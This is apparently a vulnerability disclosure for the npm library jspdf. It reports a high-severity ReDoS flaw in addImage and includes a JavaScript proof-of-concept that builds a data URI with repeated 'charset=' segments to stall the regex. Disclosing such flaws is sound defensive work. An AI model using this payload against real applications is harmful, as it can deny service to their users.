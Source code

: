 **Submission details:**

**Package Manager:** npm
**Affected module:** jspdf
**Link to published package:** https://github.com/MrRio/jsPDF
**Link to GitHub repo:** https://github.com/MrRio/jsPDF
**Other vulnerability type:** 
**Severity level:** High
**Module Description:** **A library to generate PDFs in JavaScript.**

**Vulnerability Description:**

It allows cause a Regular Expression Denial of Service (ReDoS) when adding images.

**Steps to reproduce:**

```javascript
const fs = require("fs");
const { jsPDF } = require("jspdf")


function build_blank(n) {
	var ret = "data:/"
	for (var i = 0; i < n; i++) {
		ret += "charset="
	}
	return ret + "!";
}
 
const doc = new jsPDF();
doc.text("Hello world1111!", 10, 10);

var imageData = "data:image/png;base64,"

var Octocat = fs.readFileSync("psb.png", { encoding: "latin1" });
doc.addImage(build_blank(30) + imageData, "test", 10, 40, 180, 180, undefined, "SLOW");


doc.save("a4ffff.pdf"); // will save the file in the current working directory
console.log("type:" + typeof(doc.addImage))
```

You can execute `./jspdf/jspdf.js`

**Did I contact the maintainer:** No
**Did I open an issue:** No